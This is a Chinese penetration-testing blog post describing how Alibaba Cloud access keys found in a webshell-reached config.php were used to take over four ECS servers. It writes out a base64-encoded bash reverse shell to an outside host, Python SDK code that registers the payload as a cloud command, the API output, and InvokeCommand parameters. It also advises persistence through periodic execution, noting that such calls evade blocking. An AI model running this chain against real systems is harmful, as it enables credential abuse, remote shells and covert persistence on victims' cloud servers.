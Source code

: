 ```yaml
---
title: 阿里云Access Token问题 - 项目收获记录
layout: post
date: '2019-04-02'
categories: 渗透测试
permalink: "/archivers/2019-04-02/1"
description:  项目中准备开展内网渗透的时候，信息搜集给我带来的收获……
---
```


## 0x00 前言

Q：在获得权限较低的Webshell的情况下，如何继续扩大收获？

A：首先，信息搜集，分别包含：当前权限，主机网络环境、系统进程、网络连接状况、散落的凭证等，然后进行战略分析

1. 是否需要提权
2. 如何将流量带入（转发）
3. 结合搜集的信息转化出其他更好的思路

很巧，我遇到了第三种情况。

**Tips：内网渗透一般提权是最不可取的方案，我们只需要不断搜集信息、撕开一个流量口子即可。**

## 0x01 阿里云对象存储 - OSS

什么是对象存储？

阿里云对象存储服务（Object Storage Service，简称OSS），是阿里云对外提供的海量、安全、低成本、高可靠的云存储服务。您可以通过本文档提供的简单的REST接口，在任何时间、任何地点、任何互联网设备上进行上传和下载数据。基于OSS，您可以搭建出各种多媒体分享网站、网盘、个人和企业数据备份等基于大规模数据的服务。


通过Webshell在目标机器（Linux）的Web站点目录下发现多个子站配置文件`config.php`，配置了同一个阿里云的OSS地址，只是存储空间（Bucket）不同。

通常情况下一个阿里云oss地址的组成如下：


`http(s)://[BucketName].oss-cn-[Region].aliyuncs.com`

BucketName ：存储空间

Region：地域，目前有如下几个：

![2019-04-02-20-58-34](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/b47095f0e521b2c64a785b3cbe165889.png)

例如：杭州 = cn-hangzhou



## 0x02 Access Token

Access Token = AccessKeyId + AccessKeySecret


OSS通过使用AccessKeyId/ AccessKeySecret对称加密的方法来验证某个请求的发送者身份。

AccessKeyId用于标示用户，AccessKeySecret是用户用于加密签名字符串和OSS用来验证签名字符串的密钥，其中AccessKeySecret必须保密，只有用户和OSS知道。AccessKey 根据所属账号的类型有所区分。

**阿里云账户AccessKey：阿里云账号提供的AccessKey拥有所属资源的全部操作权限**

RAM账户AccessKey：RAM账户由阿里云账号授权生成，所拥有的AccessKey拥有对特定资源限定的操作权限

STS临时访问凭证：由阿里云账号或RAM账号生成，所拥有的AccessKey在限定时间内拥有对特定资源限定的操作权限。过期权限收回。

[详细介绍](https://help.aliyun.com/document_detail/31867.html?spm=a2c4g.11186623.2.7.60c35869TaDn9K#concept-e4s-mhv-tdb)

## 0x03 通过Access Token接管ECS

ECS：云服务器（Elastic Compute Service，简称 ECS）是一种简单高效、处理能力可弹性伸缩的计算服务，帮助您快速构建更稳定、安全的应用，提升运维效率，降低 IT 成本，使您更专注于核心业务创新。

前面介绍到，默认情况下，阿里云用户获得的Access Token是对当前用户所有服务通用的令牌，在没有使用RAM账户的情况下，就可以使用SDK去操作阿里云所有产品。

在此次项目里，我接管了四台ECS，执行任意命令，获得最大权限。


首先，通过读取配置文件，获得了同于上传图片所需要认证的Access Token，如何检验是否可用的呢？


```
Access Key Id : *********
Access Secret : ***************************
Region : cn-*****
```

下面直接调用获取ECS实例的API即可，以往情况下，我会使用Python，安装阿里云的sdk-core库，但是现在能在线调试，大大的节省了本地调试的成本：

DescribeInstances - 获得实例信息

![2019-04-02-21-11-05](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/e2155c603d701fd20696069aea984835.png)


只有第一个`RegionId`是必填项，点击`API Explorer`，可以直接进入调试环境：

![2019-04-02-21-12-38](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/e7013aa30b06a0f6eb76ec22851c92b4.png)

服务器上的oss配置中刚好有RegionId，我就直接选择了，然后填入Access Token信息，就可以获得数据。

我是直接在`Alicloud Shell`里复制了一份运行的：

![2019-04-02-21-16-55](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/29658b26756b91ad7999c3586697f73a.png)

输出结果如下：

![2019-04-02-21-21-17](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/3729d18e5454db84dfdd66b91344ea8c.png)


使用`json.cn`格式化一下：

![2019-04-02-21-23-48](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/6be7a9b9ceb7a55095aba804a63165dc.png)

共四台服务器，那么如何执行命令呢？

首先要创建一条命令，然后指定实例来调用命令，手册地址：

https://help.aliyun.com/document_detail/64844.html

命令的类型取值范围：

- RunBatScript：创建一个在 Windows 实例中运行的 Bat 脚本
- RunPowerShellScript：创建一个在 Windows 实例中运行的 PowerShell 脚本
- RunShellScript：创建一个在 Linux 实例中运行的 Shell 脚本

由于都是Linux，我就选择RunShellScript，注意：命令必须是base64encode


```
rvn0xsy@Rvn0xsy ~> echo "bash -i >& /dev/tcp/1.1.1.1/2333 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjEuMS4xLzIzMzMgMD4mMQo=
```

![2019-04-02-21-29-22](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/64788dbca11e1dfd99c53caae568dccc.png)

```
#!/usr/bin/env python
#coding=utf-8

from aliyunsdkcore.client import AcsClient
from aliyunsdkcore.acs_exception.exceptions import ClientException
from aliyunsdkcore.acs_exception.exceptions import ServerException
from aliyunsdkecs.request.v20140526.CreateCommandRequest import CreateCommandRequest

client = AcsClient('<accessKeyId>', '<accessSecret>', 'cn-shanghai')

request = CreateCommandRequest()
request.set_accept_format('json')

request.set_Type("RunShellScript")
request.set_CommandContent("YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjEuMS4xLzIzMzMgMD4mMQo=")
request.set_Name("test")

response = client.do_action_with_exception(request)
# python2:  print(response) 
print(str(response, encoding='utf-8'))

```

执行成功后，会返回如下信息：

```
{
	"RequestId": "********-****-****-****-********",
	"CommandId": "c-0************"
}
```

CommandId最好记下来，不然还要调用[DescribeCommands](https://api.aliyun.com/find/Ecs/DescribeCommands?spm=a2c1g.8271268.10000.91.169bdf25hVPFbi)


```
{
	"PageNumber": 1,
	"TotalCount": 1,
	"PageSize": 10,
	"RequestId": "********-****-****-****-********",
	"Commands": {
		"Command": [
			{
				"Name": "test",
				"Timeout": 3600,
				"CommandContent": "YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjEuMS4xLzIzMzMgMD4mMQo=",
				"Description": "",
				"Type": "RunShellScript",
				"CommandId": "c-0************",
				"WorkingDir": ""
			}
		]
	}
}
```

紧接着就是`InvokeCommand`：

- RegionId：区域ID，例如：cn-shanghai
- CommandId：命令ID
- InstanceId：实例ID
- Timed：命令是否为周期执行。 默认值：False
- Frequency：周期任务的执行周期，两次周期任务的时间间隔不能低于10秒。当参数 Timed 的值为 True 时，参数 Frequency 为必需参数。 该参数取值遵循Cron表达式，参阅[Cron表达式](https://help.aliyun.com/document_detail/64769.html?spm=a2c4g.11186623.2.21.755e1926kBOlWA)。

默认情况下，我们不需要管后面的参数，如果你想权限维持的话，可以设置Timed为False，并且设置Frequency为定时任务计划表达式，执行的过程中，基本上不会拦截，因为Access Token的调用，一切都是白名单的。

![2019-04-02-21-39-17](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/af5818d425ef9c61361044a26dd6e804.png)




